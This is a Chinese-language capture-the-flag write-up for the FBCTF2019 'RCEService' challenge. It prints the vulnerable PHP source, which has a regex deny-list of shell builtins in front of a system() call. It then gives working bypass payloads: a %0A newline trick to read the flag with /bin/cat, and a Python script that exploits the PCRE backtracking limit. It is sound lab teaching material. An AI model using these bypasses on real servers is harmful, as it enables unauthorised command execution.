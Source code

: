 # \[FBCTF2019]RCEService

## \[FBCTF2019]RCEService

## 考点

* `%0a`绕过preg\_match
* PRCE正则回溯
* 绝对路径绕过`putenv('PATH=/home/rceservice/jail');`

## wp

直接输`ls`会给出错误，显示提交的参数是`?cmd=ls`

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png>)

要求输入json，输入`{"cmd":"ls"}`

![](<../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png>)

源码是给出的，如下

```php
<?php
putenv('PATH=/home/rceservice/jail');
if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];
  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}
?>
```

### 第一种方法

基本上能过滤的全过滤了，并且在第一行`putenv('PATH=/home/rceservice/jail');`处指定了默认执行命令的位置，即如果执行`ls`，那么就相当于执行`/home/rceservice/jail/ls`，这里可以使用`/bin/cat`，`/bin/ls`这种方式绕过

而preg\_match默认不匹配换行，可以使用`%0A`绕过，payload：`{%0A"cmd":"ls"%0A}`

`%0A`如果放在开头，不满足``[\x00-\x1FA-Z0-9!#-/;-@[-`|~\x7F]+``这个条件。

payload：`{%0A"cmd":"/bin/cat /home/rceservice/flag"%0A}`

### 第二种方法

[PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

脚本如下

```python
import requests

payload = '{"cmd":"/bin/cat /home/rceservice/flag","zz":"' + "a"*(1000000) + '"}'

res = requests.post("http://26d07d48-6ef0-406d-94ad-b13c0c4908fa.node4.buuoj.cn:81/", data={"cmd":payload})
print(res.text)
```

## 小结

* preg\_match要能想到%0A绕过
